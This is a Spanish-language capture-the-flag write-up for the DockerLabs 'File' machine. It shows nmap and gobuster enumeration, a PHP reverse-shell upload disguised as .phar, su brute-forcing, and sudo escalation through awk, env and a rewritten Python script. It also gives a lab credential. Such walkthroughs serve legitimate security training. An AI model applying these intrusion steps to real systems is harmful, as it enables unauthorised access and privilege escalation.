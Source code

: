 ```yaml
---
title: "FILE DOCKERLABS"
date: 2025-05-20 10:00:00 +0000
categories: [DockerLabs]
tags: [DockerLabs, CTF]
image: /assets/img/DockerLabs/MachineFile/machine_file_dl.png
---
```



La máquina File de DockerLabs es un reto fácil orientado a principiantes en el pentesting. A lo largo del desafío se exploran técnicas clásicas como reconocimiento de servicios, enumeración de recursos web, y pasos de escalada de privilegios en un entorno Linux. Es una excelente práctica para familiarizarse con herramientas comunes y fortalecer el pensamiento lógico en escenarios de captura de bandera.



## INFORMACIÓN GENERAL

- **Plataforma**: DockerLabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil

## DESPLIEGUE
```bash
bash autodeploy.sh file.tar
```
![despliegue](/assets/img/DockerLabs/MachineFile/despliegue.png)

## RECONOCIMIENTO
```bash
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2
```

```bash
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000010s latency).
Scanned at 2025-03-07 20:53:21 -05 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 65534    65534          33 Sep 12 21:50 anon.txt
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
El puerto 80 está abierto y muestra la página por defecto del servidor Apache, según el escaneo de Nmap.
![web_apache](/assets/img/DockerLabs/MachineFile/web_apache.png)

## ENUMERACIÓN

En este punto, podemos pensar en enumerar la web, directorios ocultos, archivos, etc. Pero sin olvidar que podemos iniciar sesión de forma anónima por FTP, y Nmap reporta un archivo llamado `anon.txt`

```bash
ftp anonymous@172.17.0.2
```
![hash_ftp](/assets/img/DockerLabs/MachineFile/hash_ftp.png)
![crakstation](/assets/img/DockerLabs/MachineFile/crackstation.png )

Tenemos como resultado `justin`, si hacemos un intento de ataque de fuerza bruta con `hydra` por `ssh`, no tenemos éxito asi que vamos a enumerar directorios

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   500,502,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,xml,csv,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 11008]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
/file_upload.php      (Status: 200) [Size: 468]
Progress: 1245858 / 1245864 (100.00%)
===============================================================
Finished
===============================================================
```
**✅ "⚠️ Importante: el directorio /uploads puede ser de interés, pero también hay un /file_upload.php."**
#### CONSEJO
Cuando realicé este CTF, corté el escaneo de Gobuster demasiado rápido al encontrar directorios interesantes. Sin embargo, es importante esperar a que termine el escaneo por completo, ya que `file_upload.php` apareció casi al final.

# EXPLOTACIÓN

Al encontrar esto, podemos pensar en la VULNERABILIDAD DE FILE UPLOAD, vamos a intentar mandarse una reverse shell, usaremos el archivo de nuestro amigo `Pentest Monkey`
[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell), Solo cambiamos la extensión a `.phar` porque el servidor tenía restricciones con ciertas extensiones. Probé con `.php`, pero no lo permitía.
Preparamos el archivo, ajustamos los parámetros necesarios y lo subimos.

![upload](/assets/img/DockerLabs/MachineFile/upload.png)

Ahora vamos al directorio `uploads`, nos ponemos en escucha por el puerto que definimos y ejecutamos 

![rev_shell_exito](/assets/img/DockerLabs/MachineFile/rev_shell_exito.png)


Para poder operar mejor podemos hacer un tratamiento de la TTY para obtener una bash interactiva
```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
          reset xterm
export TERM=xterm
export SHELL=bash
```


## ESCALADA DE PRIVILEGIOS

No encontramos permisos SUID ni la forma clásica de escalar privilegios con `sudo -l` funciona, entonces vamos a realizar una fuerza bruta a usuarios con `su`
La herramienta que usaremos sera la siguiente: [su-bruteforce](https://github.com/carlospolop/su-bruteforce) 
los usuarios que tenemos son:
- fernando
- iker
- julen
- mario

Creamos el archivo y le damos permisos de ejecución
![archivo_bruteforce](/assets/img/DockerLabs/MachineFile/archivo_bash_bruteforce.png)

Ahora traemos el diccionario con el que aplicaremos la fuerza bruta, el rockyou.txt de nuestra maquina local

![server_python](/assets/img/DockerLabs/MachineFile/server_python.png)
![previa_brute_force](/assets/img/DockerLabs/MachineFile/previa_bruteforce.png)


Encontramos 2 credenciales de los usuarios: `mario` y `fernando`

![credenciales](/assets/img/DockerLabs/MachineFile/credenciales.png)

"Vamos a iniciar sesión con las credenciales `fernando:chocolate`, encontramos una imagen. Si aplicamos esteganografía, podremos recuperar la contraseña de `mario`, tal y como lo descubrió la herramienta, podemos cambiar al usuario `mario`
![escalda_julen](/assets/img/DockerLabs/MachineFile/escalada_juel.png)

como vemos podemos escalar al usuario `julen` mediante el binario `awk`, corremos a nuestra pagina de confianza [GTFOBins](https://gtfobins.github.io/)
```bash
sudo -u awk 'BEGIN {system("/bin/sh")}'
```
![julen_user](/assets/img/DockerLabs/MachineFile/julen_user.png)

Ahora si hacemos un `sudo -l` con el usuario julen, podemos escalar hacia iker mediante el binario `env` 

```bash
sudo -u iker env /bin/sh
```
![user_iker](/assets/img/DockerLabs/MachineFile/user_iker.png)

Hacemos `sudo -l` vemos que el usuario iker puede escalar mediante un archivo en python, la idea seria modificar el archivo para enviarnos una bash como root
Pero no tenemos permisos de escritura, solo de lectura. Sin embargo, podemos eliminarlo e ingresar contenido nuevo.

![iker_escalada](/assets/img/DockerLabs/MachineFile/escalada_user.png)
```bash
echo "import os" > geo_ip.py
echo "os.system('/bin/bash')" >> geo_ip.py
```

![geo.py](/assets/img/DockerLabs/MachineFile/geo.py.png)


```bash
sudo /usr/bin/python3 /home/iker/geo_ip.py
```
![root](/assets/img/DockerLabs/MachineFile/root.png)


#### HEMOS RESUELTO LA MAQUINA!


## ELIMINAR LA MAQUINA

```bash
ctrl + c
```

# GRACIAS POR LEER


